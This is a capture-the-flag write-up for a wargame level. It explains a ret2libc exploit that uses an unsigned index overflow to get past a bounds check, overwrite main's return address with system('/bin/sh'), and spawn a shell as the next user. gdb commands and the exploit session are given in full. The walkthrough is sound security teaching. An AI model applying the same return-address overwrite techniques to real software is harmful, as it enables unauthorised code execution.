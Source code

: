 # Level07

## Reconnaissance

We have two security enabled:
- **RELRO Partial enabled** = GOT (Global Offset Table) placed were we cannot overflow
- **Canary** = Random value added after the return address, if it is modified, the program leave. Prevent overwrite of return address

We analyse the program with gdb and we notice that the program enable the user to store `unsigned int` in memory from a specific address but only in index which `index % 3 != 0` and with for the value, no numbers with the first byte equal to `183` so `0xb7`

In addition, the arguments and environement variables are erased so not possible to store a payload there.

## Exploit

### Getting addresses

Lets try to do a `ret2libc` which consist of creating a combinaison of `libc` function call and use of strings stored in `libc`.
How to get the address libc functions:
```shell
(gdb) info functions system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system
0xf7f48a50  svcerr_systemerr
(gdb) info proc mappings
process 1989
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level07/level07
	 0x8049000  0x804a000     0x1000     0x1000 /home/users/level07/level07
	 0x804a000  0x804b000     0x1000     0x2000 /home/users/level07/level07
	0xf7e2b000 0xf7e2c000     0x1000        0x0 
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0 
	0xf7fda000 0xf7fdb000     0x1000        0x0 
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000, 0xffffe000, "/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:	 "/bin/sh"
```

So now we have the address of `"/bin/sh"` and `system`. We have to overwrite the return address of main with the address of `system`
then will be the spot for a return address after system has been called, we dont really need to specify something there.
And after, so system + `0x8` address, we specify the argument for system, so our `"/bin/sh"`

## Offset

![stack](Ressources/stack.svg)

So offset 456 and we can store `unsigned int` in memory so `4 bytes by 4 bytes` then our index is `456 / 4 = 114`
We have:
- `114` for the return address
- `116` for the argument (`"/bin/sh"`)

The issue is that `114` is not a valid value for index since `114 % 3 = 0`
Since the index is multiplied by 4, we just have to find a value which multiplied by 4 overflow to let us with `114` = `1110010`.

    1         2         3         4
0000 0000 0000 0000 0000 0000 0111 0010 = `114`

0000 0000 0000 0000 0000 0001 1100 1000 = `114 * 4` = `456` => equivalent to bitshifting `<<2` and in general `nb<<n` <=> `nb * 2**n`

so with that said, we just have to add a `1` on the last bit or the second last bit

0100 0000 0000 0000 0000 0000 0111 0010 = `1073741938` => `1073741938 % 3 = 1` great we got our number

OR

1000 0000 0000 0000 0000 0000 0111 0010 = `2147483762` => `2147483762 % 3 = 2`

Both works

Now we can write in the addresses, we just have to convert them in decimal and we good to pwn:
- `system`: `0xf7e6aed0` => `4159090384`
- `"/bin/sh"`: `0xf7f897ec` => `4160264172`

```shell
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 2147483762
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
```
